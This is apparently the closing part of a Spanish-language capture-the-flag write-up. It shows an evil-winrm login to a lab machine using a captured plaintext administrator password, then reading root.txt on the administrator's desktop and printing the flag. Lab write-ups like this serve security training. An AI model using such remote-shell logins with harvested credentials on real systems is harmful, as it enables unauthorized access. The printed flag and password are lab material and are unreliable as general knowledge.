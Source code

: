 ```bash
❯ evil-winrm -i 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
6154d420f50cd70c919a6fb1e96e56fc
```

y listo maquina finiquitada! 😆
